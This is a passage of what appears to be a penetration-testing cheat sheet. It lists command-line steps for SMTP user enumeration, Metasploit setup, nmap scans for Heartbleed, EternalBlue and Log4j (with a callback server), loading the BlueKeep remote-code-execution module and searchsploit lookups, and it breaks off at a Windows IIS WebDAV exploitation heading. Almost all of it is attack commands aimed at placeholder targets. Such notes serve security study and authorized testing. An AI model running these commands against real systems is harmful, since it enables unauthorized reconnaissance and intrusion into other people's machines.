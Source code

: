 ```bash
nc <TARGET_IP> 25
telnet <TARGET_IP> 25

# TELNET client - check supported capabilities
HELO attacker.xyz
EHLO attacker.xyz
```

```bash
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <TARGET_IP>
```

#### Metasploit

```bash
# METASPLOIT
service postgresql start && msfconsole -q

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/smtp/smtp_enum
```

## Vulnerability Assessment

```bash
# HEARTBLEED
nmap -sV --script ssl-enum-ciphers -p <SECURED_PORT> <TARGET>
nmap -sV --script ssl-heartbleed -p 443 <TARGET_IP>

# ETERNALBLUE
nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>

# BLUEKEEP
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# LOG4J
nmap --script log4shell.nse --script-args log4shell.callback-server=<CALLBACK_SERVER_IP>:1389 -p 8080 <TARGET_IP>
```

```bash
searchsploit badblue 2.7
```

## Host Based Attacks

### Windows Exploitation

#### IIS WEBDAV
